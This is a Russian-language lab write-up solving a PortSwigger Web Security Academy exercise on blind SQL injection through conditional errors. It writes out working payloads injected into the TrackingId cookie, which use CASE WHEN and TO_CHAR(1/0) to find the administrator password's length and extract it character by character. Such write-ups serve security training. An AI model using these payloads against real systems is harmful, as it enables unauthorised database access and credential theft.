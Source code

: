 ```yaml
---
title: "Blind SQL injection"
date: 2025-06-14T13:37:00-04:00
categories:
  - blog
tags:
  - writeup
  - web
---
```


## Scope

[ссылка на лабу]: https://portswigger.net/web-security/learning-paths/sql-injection/sql-injection-error-based-sql-injection/sql-injection/blind/lab-conditional-errors

```
https://0ae90054044f120581a76bcc00c300ed.web-security-academy.net/
```

В данной лабе есть уязвимый к [[Blind based SQL injections(SQLi)| Blind based SQL injection]] параметр в `Cookie`.

В БД есть таблицы с именам `users` и колонками `username` и `password`.

Нужно получить информацию из БД, чтобы зайти в аккаунт `administrator`.
## Notes

Во-первых, из условия известно, что уязвимость находится в `Cookie`, значит есть смысл сразу смотреть `HTTP` запросы.
Во-вторых, известно, что это `Blind Injection`, поэтому будет весело...

И так, возьму `GET`-запрос:

```HTTP
GET /filter?category=Gifts HTTP/2
Host: 0ae90054044f120581a76bcc00c300ed.web-security-academy.net
Cookie: TrackingId=qj7wR5JE68DIePPM; session=sdjSIBQgVY0TIDfdZDJ4oAKTKfz0ZAzb
User-Agent: Mozilla/5.0 (Macintosh; Intel Mac OS X 10.15; rv:135.0) Gecko/20100101 Firefox/135.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,*/*;q=0.8
Accept-Language: en-US,en;q=0.5
Accept-Encoding: gzip, deflate, br
Referer: https://0af700f20342cbdda9c9b2a200cb0036.web-security-academy.net/
Upgrade-Insecure-Requests: 1
Sec-Fetch-Dest: document
Sec-Fetch-Mode: navigate
Sec-Fetch-Site: same-origin
Sec-Fetch-User: ?1
Priority: u=0, i
Te: trailers
Connection: keep-alive
```

Скорее всего уязвимым является `TrackingId`. Попробую посмотреть, как изменится ответ, при не верном значении `TrackingId=qj7wR5JE68DIePPM:

```HTTP
HTTP/2 200 OK
Content-Type: text/html; charset=utf-8
X-Frame-Options: SAMEORIGIN
Content-Length: 5267
```

Запрос отработал корректно, попробую добавить кавычку `TrackingId=qj7wR5JE68DIePPM'`:

```HTTP
HTTP/2 500 Internal Server Error
Content-Type: text/html; charset=utf-8
X-Frame-Options: SAMEORIGIN
Content-Length: 2324
```

Значит обрамление для запроса - это одинарная кавычка `'`. Протестирую это:

```
qj7wR5JE68DIePPM' and 1=0-- -Ok
qj7wR5JE68DIePPM' and 1=1-- -OK
```

Оба запроса отработали корректно. Это значит, что обрамление подобрано корректно, но проверка условий не работает. В таком случае можно попробовать [[Error based SubQuery injections(SQLi)|Error based SQL injection]]. Ее идея в том, чтобы вызвать ошибку в запросе, благодаря чему у нас на странице может отобразиться сообщение о ней. Объединив это с оператором `CASE` можно сделать следующий запрос:

```
qj7wR5JE68DIePPM' and (SELECT CASE WHEN (1=0) THEN TO_CHAR(1/0) ELSE '1' END FROM dual) = '1'-- -Ok
qj7wR5JE68DIePPM' and (SELECT CASE WHEN (1=1) THEN TO_CHAR(1/0) ELSE '1' END FROM dual) = '1'-- -Error
```

Запрос работает. Теперь в качестве условия подставлю нужное условие. Попробую узнать длину пароля:

```
qj7wR5JE68DIePPM' and (SELECT CASE WHEN LENGTH(password) < 40 THEN TO_CHAR(1/0) ELSE '1' END FROM users WHERE username = 'administrator') = '1'-- -Error
qj7wR5JE68DIePPM' and (SELECT CASE WHEN LENGTH(password) < 20 THEN TO_CHAR(1/0) ELSE '1' END FROM users WHERE username = 'administrator') = '1'-- -OK
qj7wR5JE68DIePPM' and (SELECT CASE WHEN LENGTH(password) > 20 THEN TO_CHAR(1/0) ELSE '1' END FROM users WHERE username = 'administrator') = '1'-- -Ok
qj7wR5JE68DIePPM' and (SELECT CASE WHEN LENGTH(password) = 20 THEN TO_CHAR(1/0) ELSE '1' END FROM users WHERE username = 'administrator') = '1'-- -Error
```

Я получил ошибку на условии `LENGTH(password) = 20`, значит длина пароля 20 символов. Теперь использую `SUBSTR` для подбора каждого символа со следующим пейлоадом:

```
qj7wR5JE68DIePPM' and (SELECT CASE WHEN SUBSTRING(password, 1, 1) = 'a' THEN TO_CHAR(1/0) ELSE '1' END FROM users WHERE username = 'administrator') = '1'-- -
```

Для упрощения подбора я используют `Burp Suite Intruder` с атакой `Brute Force`.

```
qj7wR5JE68DIePPM' and (SELECT CASE WHEN SUBSTR(password, 1, 1) = 'a' THEN TO_CHAR(1/0) ELSE '1' END FROM users WHERE username = 'administrator') = '1'-- -
```

Правильная буква будет в том случае, когда на запрос получается ошибка с кодом `500`, поэтому я отфильтровал другие запросы:

![[Pasted image 20250126154704.png]]

После 20 запросов я получил пароль: `h1dqh09pg0e86htryfv9`. Проверю его:

![[Pasted image 20250126155414.png]]

Вообще изи, решил не глядя)
